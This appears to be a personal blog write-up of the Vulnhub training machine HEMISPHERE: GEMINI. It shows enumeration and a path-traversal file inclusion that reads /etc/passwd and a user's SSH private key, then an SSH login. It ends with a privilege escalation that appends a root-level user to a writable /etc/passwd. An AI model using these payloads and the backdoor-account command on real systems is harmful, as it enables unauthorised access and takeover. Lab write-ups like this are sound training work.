 ```yaml
---
layout: post
title:  "Vulnhub - HEMISPHERE: GEMINI"
date:   2020-11-13 14:00:00 +1100
category: hacking
---
```


## Prelude
Since my last post I did *Brute It* on THM and more or less finished *TommyBoy* from Vulnhub, although I had to consult a write-up for a hint or two on that one. I did most of it myself. I probably won't write a post about it.

## Introduction
*Difficulty: Easy  
Flag: 2 (user & root)  
Enumeration | Web Application | Privilege Escalation  
This works better with VirtualBox rather than VMware*  

This is [HEMISPHERE: GEMINI](https://www.vulnhub.com/entry/hemisphere-gemini,596/) from Vulnhub. 

## Ports
This one has FTP, SSH, HTTP and SMB, all on their standard ports. However FTP doesn't support anonymous login and there is nothing obviously available via SMB so they are both distractions. We move forward with HTTP.

## HTTP
robots.txt has three disallowed entries, and none of them exist lol.

Gobuster leads the way:

``
root@kali:/opt/vulnhub/gemini# gobuster dir -u http://192.168.1.132 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
``

This gets a directory called */Portal* which has an index page like this:

>http://192.168.1.132/Portal/index.php?view=about-us.html

It was presumably intentional with the **view** parameter but my first thought was LFI, and it was correct:

``
http://192.168.1.132/Portal/index.php?view=../../../../../../../../../../etc/passwd
``

This works, and we have a user called *william*. Probably it's not as simple as this, right?

``
http://192.168.1.132/Portal/index.php?view=../../../../../../../../../../../home/william/.ssh/id_rsa
``

Actually, it is.

{% highlight shell %}
root@kali:/opt/vulnhub/gemini# ssh -i id_rsa william@192.168.1.132
The authenticity of host '192.168.1.132 (192.168.1.132)' can't be established.
ECDSA key fingerprint is SHA256:WJJG9C/ZF8ojVDQF40UEgPCGZMEGwny3luZufN5+K30.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.132' (ECDSA) to the list of known hosts.
Linux gemini 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

ASCII ART REMOVED

william@gemini:~$ pwd
{% endhighlight %}

## Privesc
Linpeas says */etc/passwd* is writeable. We know what to do with that!

{% highlight shell %}
william@gemini:/dev/shm$ echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
william@gemini:/dev/shm$ su root2
Contraseña: 
root@gemini:/dev/shm# cd /root
root@gemini:~# ls
root.txt
root@gemini:~# cat root.txt 
root_flag==> vD1JA8mze74XzkmzOA21R4sjZ
{% endhighlight %}

Short, sweet, and done.
